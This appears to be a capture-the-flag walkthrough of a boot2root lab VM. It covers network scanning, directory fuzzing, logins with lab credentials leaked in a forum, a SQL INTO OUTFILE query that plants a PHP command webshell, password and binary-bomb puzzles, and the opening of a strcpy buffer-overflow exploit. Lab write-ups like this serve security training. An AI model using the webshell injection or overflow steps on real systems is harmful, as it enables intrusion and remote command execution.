









## Writeup 1

After downloading and setting up the machine on VirtualBox, There isn't any visible IP address on startup like other ISOs to connect easily on SSH.
This is not a big deal, we will use nmap to scan all devices on our network and their open ports. We will not scan for all possible addresses in our network because that will take a long time. And since we already know the range of IPs we want to search for (10.13.100.0 to 10.13.100.256), we will use nmap with that range: (Otherwise we can use arp to get IPs addresses on the network then nmap to scan for open ports):

```console
nmap 10.13.100.0/24
```


That will show us the open ports, we notice that a host is up with open ports for ssh, ftp, *http* and *https*. That mean we can access it via our navigator
after that we use dirbuster to fuzz all available directories in the website:



We can access to the website but still we can't do much with a simple HTML page, let's try fuzzing directories with *dirb* to see if we can find any useful directory.
```console
dirb https://10.13.100.x
```



we find a /forum + other directories we will get to later
after scanning the posts in the forum, we find a thread from lmezard where there is a bunch of logs and errors, after a quick scan we can find a leaked pw : **!q\]Ej?\*5K5cy\*AJ**
we log in with lmezard:!q\]Ej?\*5K5cy\*AJ and we don't find anything that's interesting.
Our last command with dirb found a https:://10.13.100.x/webmail/ , now let's go back to the forum and get lmezard email then log with it using the same passowrd.
we will find identifiers to the database phpmyadmin **root/Fg-'kKXBj87E:aJ$**
https:://10.13.100.x/phpmyadmin/ was also a directory found, let's log into it using those credentials:
Let's try injecting a simple PHP webshell using sql:
```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"

INTO OUTFILE '/var/www/forum/templates_c/cmd.php'
```
After some trial and error, all directories found with dirb are non-writable and will return an error except https://10.13.100.x/forum/templates_c/

Cool, now we can access the webshell https://10.13.100.x/forum/templates_c/cmd.php and try simple commands.

now if we see what's inside /home we'll see a file called LOOKATME that contains : **lmezard:G!@M6f4Eatau{sF"**
this isn't working in ssh but first when we ran Nmap we saw a port 21 open for ftp. We can connect to it from our machine.
```console
ftp 10.13.100.x
Name > lmezard
Password > G!@M6f4Eatau{sF"
```
we got in, let's try ls command, it doesn't work let's try passive mode
```console
ftp > pass
ftp > ls
150 Here comes the directory listing.
-rwxr-x--- 1 1001 1001 96 Oct 15 2015 README
-rwxr-x--- 1 1001 1001 808960 Oct 08 2015 fun
226 Directory send OK.
```

we use mget to get the files to our working directory
```
mget README fun
```

```
cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

When we inspect the "fun" file, It's a c program with a bunch of comments and printfs of "Hahahaha Got you!!!\n", this is the main function:
```c
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```

if we try looking for getme() functions we will only find from getme8() to getme12(), the others are missing, now we the end of password and that is:

? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; w &nbsp; n &nbsp; a &nbsp; g &nbsp; e

now if we search for "return" we will find some commented returns those are the 7 characters left: h p e a I r t

If we assume the I is the first letter since it's uppercase + the last word will most likely be pwnage we will be left with the characters: h e a r t

I &nbsp; h &nbsp; e &nbsp; a &nbsp; r &nbsp; t &nbsp; p &nbsp; w &nbsp; n &nbsp; a &nbsp; g &nbsp; e

let's trying hashing the following password and let's try ssh to laurie;

sha256(Iheartpwnage) = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

ssh laurie@192.168.188.140
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

IT WORKED!!

<h2>Bomb:</h2><br/>

Readme:
```
	laurie@BornToSecHackMe:~$ cat README
	Diffuse this bomb!
	When you have all the password use it as "thor" user with ssh.

	HINT:
	P
	 2
	 b

	o
	4

	NO SPACE IN THE PASSWORD (password is case sensitive).
```
<br/>
1) The function phase_1 compare the line with a string predefined.



> Public speaking is very easy.<br/>

2) The function phase_2 expect us to write factorial 1 to 6.



> 1 2 6 24 120 720 <br/>

3) The function phase_3 have multiple choices:

<br/>

We already know from the readme that the 2nd param should be a 'b', that left us with 3 possible answers,<br/>after defusing the bomb we found that the right answer is:

> 1 b 214<br/>

4) The function phase_4 use Fibonacci number:<br/>

<br/>

But the way its implemented we need to use f(n+1) not f(n), so to get Fibonacci(10)=55 we need to pass 9.

> 9 <br/>

5) This function takes an str that is exactly 6 characters long then creates a new str that's filled with the following line:

*newstr[i] = (&array.123)[(char)(*(byte *)(i + line) & 15)]*

And in the end it checks if newstr equals to "giants". array123 is an array that contains the following characters : *array123="isrveawhobpnutfg"*.
Now all we have to do is look for the index of each character in "giants" in array123 and perform the logical & operation with 0xf on that;

newstr[0] = 0x6f & 0xf = 0xf or 15 (15 here is the index of 'g' in array123;

newstr[1] = 0x70 & 0xf = 0x0 or 0 (0 here is the index of 'i' in array123;

newstr[2] = 0x65 & 0xf = 0x5 or 5 (5 here is the index of 'a' in array123;

newstr[3] = 0x6b & 0xf = 0xb or 11 (11 here is the index of 'n' in array123;

newstr[4] = 0x6d & 0xf = 0xd or 13 (13 here is the index of 't' in array123;

newstr[5] = 0x71 & 0xf = 0x1 or 1 (1 here is the index of 's' in array123;

We will end up with **newstr = "opekmq"**

<br/>

 NB: There are so many different answers that will pass this level but this is the one that works with the password at the end;

6) The Function phase_6 use the input to sort 6 nodes, and then see if they are sorted in ascending order.<br/>

```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekma
4 2 6 3 1 5
```
> thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135 [BUG IN THE SUBJECT](https://stackoverflow.com/c/42network/questions/664/1628?r=SearchResults&s=1%7C12.5313#1628)

We found a file named Turtle containing line like this:
```
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
```
that look like turtle logo algorithme, by changing those french word with actual instructions we got the password for zaz.
```
lt 90
fd 50
fd 1
lt 1
```
[TURTLE LINK](https://www.transum.org/Software/Logo/Level2/Default.asp?Level=3)


MD5 Hash of SLASH = 646da671ca01bb5d84dbb5fb2238dc8e

> zaz:646da671ca01bb5d84dbb5fb2238dc8e

We found an executable file named exploit_me, so we exploit it.
the program copy av[1] into a local variable using strcpy"NON SECURE" and then prints it using puts(&var), so we have a buffer overflow.<br/>


Now we have to find the lenght needed to overwrite the return address.<br/>


Test the lenght:<br/>


Now we need to inject a [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.php) and redirect to it:<br/>


